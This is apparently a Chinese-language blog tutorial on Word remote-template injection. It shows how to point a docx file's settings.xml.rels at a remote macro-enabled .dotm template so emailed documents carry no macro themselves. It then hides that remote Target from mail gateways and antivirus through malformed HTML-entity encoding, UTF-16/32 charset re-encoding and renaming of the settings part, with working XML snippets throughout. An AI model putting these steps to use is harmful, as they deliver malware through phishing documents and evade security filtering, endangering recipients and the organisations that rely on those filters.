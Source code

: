 ```yaml
---
date: 2021/10/20 22:00:00
---
```


# 远程模板及文档混淆

通过远程模板的方式，我们可以使得邮件中发送的docx文档不直接带宏，对规避免杀有帮助。通常的手法是修改 `word/_rels/settings.xml.rels`中的relationship标签的Target值为远程的DOTM文档

```xml
<?xml version="1.0" encoding="UTF-8" standalone="yes"?>
<Relationships xmlns="http://schemas.openxmlformats.org/package/2006/relationships"><Relationship Id="rId1" Type="http://schemas.openxmlformats.org/officeDocument/2006/relationships/attachedTemplate" Target="https://xxx.xxx.xxx/xx.dotm" TargetMode="External"/></Relationships>
```

该手法总所周知，防护实体可能会检测Target这一字段，并对文档进行拦截，下面笔者说一下对文档的混淆思路，避免因远程模板特征直接被邮件网关拦截。

## XML特性

我们知道，在web漏洞利用时，payload为xml/soap时，我们可以利用其XML特性来bypass WAF，这里也同样适用。

### HTML实体编码

编码脚本可以参考 https://github.com/turn1tup/scriptlet/blob/main/encoder.py

针对`Target`值我们可以使用的编码方式：HTML-10进制、HTML-16进制、HTML畸形编码，对应`encoder.py`输出的 html_entity_data_decimal、html_entity_data_hex、html_entity_data_spe

![](word远程模板文档混淆/encoder.png)

使用HTML畸形编码我们可以获得如下文档：

```
<?xml version="1.0" encoding="UTF-8" standalone="yes"?>

<Relationships xmlns="http://schemas.openxmlformats.org/package/2006/relationships"><Relationship Id="rId1" Type="http://schemas.openxmlformats.org/officeDocument/2006/relationships/attachedTemplate" Target="&#x0000068;&#0000116;&#x00074;&#0000112;&#x0000073;&#00058;&#x000002f;&#0000047;&#x00078;&#000120;&#x0000078;&#000046;&#x0000078;&#00000120;&#x000078;&#000046;&#x000078;&#0000120;&#x00078;&#0000047;&#x000078;&#0000120;&#x0002e;&#0000100;&#x0006f;&#000116;&#x000006d;" TargetMode="External"/></Relationships>
```

### 字符集

通过修改xml头部标签的`encoding`字符集声明，并转换xml文档为对应的字符集，我们可以混淆整个xml文档

脚本参考 https://github.com/turn1tup/scriptlet/blob/main/charset_test.py

我们可以使用的字符集有 utf-16le 、utf-16be、utf-32le、utf-32be（另外微软的软件通常比较支持UTF-7，但这个字符集不好测试），在脚本中填入我们的 `settings.xml.rels`的原始内容，并修改`encoding`字段，运行脚本后使用获得的`setings.xml.rels`文件覆盖原始docx文档的 `word/rels/settings.xml/rels`文件即可。另外注意，我们使用记事本打开UTF16文档看到的内容与UTF8文档没有差异，但实际前者为后者2倍大小。

![](word远程模板文档混淆/charset_test.png)

## 修改文档位置

`word/_rels/settings.xml.rels`的位置是可变动的

一般使用远程模板加载DOTM手法时，修改的文件为word/rels/settings.xml.res

我们可以修改为其他文件，过程如下：

①修改` [Content_Types].xml `中的`/word/settings.xml`



```
<Override PartName="/word/settings.xml" ContentType="application/vnd.openxmlformats-officedocument.wordprocessingml.settings+xml"/>
```

这里修改为`/word/foo.xml`

```
<Override PartName="/word/foo.xml" ContentType="application/vnd.openxmlformats-officedocument.wordprocessingml.settings+xml"/>
```



②同步修改的文件名称

`word/_rels/setting.xml` ->`word/_rels/foo.xml` 

`word/_rels/settings.xml.rels` ->`word/_rels/foo.xml.rels`

③`word/rels/document.xml.rels`中

```
<Relationship Id="rId6" Type="http://schemas.openxmlformats.org/officeDocument/2006/relationships/settings" Target="setting.xml"/>
```

修改为

```
<Relationship Id="rId6" Type="http://schemas.openxmlformats.org/officeDocument/2006/relationships/settings" Target="foo.xml"/>
```

